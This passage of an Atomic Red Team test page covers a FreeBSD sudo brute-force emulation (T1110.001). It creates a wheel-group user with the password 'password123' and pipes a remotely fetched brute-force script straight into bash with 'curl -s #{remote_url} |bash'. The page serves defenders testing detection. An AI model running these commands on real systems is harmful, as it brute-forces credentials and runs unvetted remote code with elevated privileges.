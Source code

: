 ##### Get Prereq Commands:

```bash
yum update && yum install -y openssl sudo curl
```

<br/>
<br/>

## Atomic Test #7 - SUDO Brute Force - FreeBSD

An adversary may find themselves on a box (e.g. via ssh key auth, with no password) with a user that has sudo'ers privileges, but they do not know the users password. Normally, failed attempts to access root will not cause the root account to become locked, to prevent denial-of-service. This functionality enables an attacker to undertake a local brute force password guessing attack without locking out the root user.

This test creates the "art" user with a password of "password123", logs in, downloads and executes the sudo_bruteforce.sh which brute force guesses the password, then deletes the user

**Supported Platforms:** Linux

**auto_generated_guid:** abcde488-e083-4ee7-bc85-a5684edd7541

#### Inputs:

| Name       | Description           | Type | Default Value                                                                                                 |
| ---------- | --------------------- | ---- | ------------------------------------------------------------------------------------------------------------- |
| remote_url | url of remote payload | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1110.001/src/sudo_bruteforce.sh |

#### Attack Commands: Run with `bash`! Elevation Required (e.g. root or admin)

```bash
pw adduser art -g wheel -s /bin/sh
echo "password123" | pw usermod art -h 0
su art
cd /tmp
curl -s #{remote_url} |bash
```

#### Cleanup Commands:

```bash
rmuser -y art
```

#### Dependencies: Run with `sh`!

##### Description: Check if running on a FreeBSD based machine.

##### Check Prereq Commands:

```sh
if grep -iq "FreeBSD" /etc/os-release; then echo "FreeBSD"; else echo "NOT FreeBSD"; exit 1; fi
if [ -x "$(command -v openssl)" ]; then echo "openssl is installed"; else echo "openssl is NOT installed"; exit 1; fi
if [ -x "$(command -v sudo)" ]; then echo "sudo is installed"; else echo "sudo is NOT installed"; exit 1; fi
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
if [ -x "$(command -v bash)" ]; then echo "bash is installed"; else echo "bash is NOT installed"; exit 1; fi
```

